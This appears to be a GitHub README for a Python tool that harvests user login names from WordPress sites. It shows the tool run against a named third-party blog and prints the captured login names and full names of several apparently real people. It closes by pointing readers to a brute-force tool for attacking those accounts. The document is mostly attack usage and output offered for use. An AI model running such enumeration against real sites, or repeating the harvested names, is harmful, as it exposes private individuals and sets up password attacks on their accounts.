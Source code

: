 # wpucollect
Get users from WordPress 

More info https://medium.com/@shahjerry33/information-disclosure-wordpress-cms-82133480b8b3

How to use:
```
python wpucollect.py -t https://blog.mann-ivanov-ferber.ru/
```

Your result:
```
python wpucollect.py -t https://blog.mann-ivanov-ferber.ru/
UserLogin UserName:
bot Bot
nadyafrank nadyafrank
podcast Podcast
yulya yulya
zaikinalexandr zaikinalexandr
aksinjaalekseeva Аксинья Алексеева
ashulenin Александр Шуленин
alex Александр Шумович
aleksandra Александра Финогенова
charikova Александра Чарикова
```
then you can use https://github.com/n00py/WPForce for bruteforce user account 
